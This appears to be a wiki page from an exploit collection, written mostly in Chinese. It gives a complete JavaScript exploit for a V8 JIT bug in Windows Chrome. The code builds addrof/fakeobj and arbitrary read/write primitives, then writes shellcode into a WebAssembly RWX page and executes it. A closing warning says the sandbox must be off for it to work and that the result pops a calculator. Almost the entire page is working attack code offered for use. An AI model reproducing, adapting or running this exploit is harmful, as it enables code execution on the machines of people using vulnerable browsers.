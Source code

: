<languages  />

前提條件
--------

僅支持Windows Chrome

EXP
---

### exploit.html

    <script src="exploit.js"></script>

### exploit.js

    var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;

    var buf = new ArrayBuffer(8);
    var f64_buf = new Float64Array(buf);
    var u64_buf = new Uint32Array(buf);
    let buf2 = new ArrayBuffer(0x150);

    function ftoi(val) {
        f64_buf[0] = val;
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

    function itof(val) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
        return f64_buf[0];
    }

    const _arr = new Uint32Array([2**31]);

    function foo(a) {
        var x = 1;
        x = (_arr[0] ^ 0) + 1;

        x = Math.abs(x);
        x -= 2147483647;
        x = Math.max(x, 0);

        x -= 1;
        if(x==-1) x = 0;

        var arr = new Array(x);
        arr.shift();
        var cor = [1.1, 1.2, 1.3];

        return [arr, cor];
    }

    for(var i=0;i<0x3000;++i)
        foo(true);

    var x = foo(false);
    var arr = x[0];
    var cor = x[1];

    const idx = 6;
    arr[idx+10] = 0x4242;

    function addrof(k) {
        arr[idx+1] = k;
        return ftoi(cor[0]) & 0xffffffffn;
    }

    function fakeobj(k) {
        cor[0] = itof(k);
        return arr[idx+1];
    }

    var float_array_map = ftoi(cor[3]);

    var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
    var fake = fakeobj(addrof(arr2) + 0x20n);

    function arbread(addr) {
        if (addr % 2n == 0) {
            addr += 1n;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        return (fake[0]);
    }

    function arbwrite(addr, val) {
        if (addr % 2n == 0) {
            addr += 1n;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        fake[0] = itof(BigInt(val));
    }

    function copy_shellcode(addr, shellcode) {
        let dataview = new DataView(buf2);
        let buf_addr = addrof(buf2);
        let backing_store_addr = buf_addr + 0x14n;
        arbwrite(backing_store_addr, addr);

        for (let i = 0; i < shellcode.length; i++) {
            dataview.setUint32(4*i, shellcode[i], true);
        }
    }

    var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
    console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
    var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
    copy_shellcode(rwx_page_addr, shellcode);
    f();

警告
----

To use this vulnerability, you need to close the sandbox environment. If you don’t close the sandbox, it will prompt `status_access_violation` or a memory error.

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
關閉沙箱可以彈出計算器

</div>
